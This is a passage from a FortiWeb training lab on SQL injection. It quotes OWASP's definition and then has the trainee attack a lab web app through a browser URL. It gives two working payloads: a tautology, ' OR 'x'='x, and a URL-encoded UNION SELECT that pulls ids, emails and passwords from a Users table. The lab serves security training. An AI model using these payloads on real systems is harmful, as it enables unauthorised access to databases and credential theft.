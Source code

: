 # Lab 6: SQL Injection

According to the Open Worldwide Application Security Project (OWASP):

A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.
You can find more information at "https://owasp.org/www-community/attacks/SQL_Injection"

### Task 1: Perform a simple SQL injection attack

For this task, we will just use a simple Browser. This can be done directly from your desktop.

1. Now let’s Navigate to the browser and type the Public IP assigned to your FortiWeb instance to get to the web browser. http://FortiWebIP:3000
2. Let’s perform a SQLi attack. To perform a SQLi attack append ```?name=' OR 'x'='x``` to your URL.

    Your URL will be similar to: http://35.192.193.224:3000/?name=' OR 'x'='x

3. Hit ENTER. It proves our website is vulnerable to SQLi attacks. Let's try another one. Append the following text to website's URL:

    ```/rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--```

    Your URL will be similar to: http://35.192.193.224:3000/rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--

3. Hit ENTER and you will see a list of SQL Users

    ![LE1 SQLSimple img1](LE1-SQLSimple-img1.png)
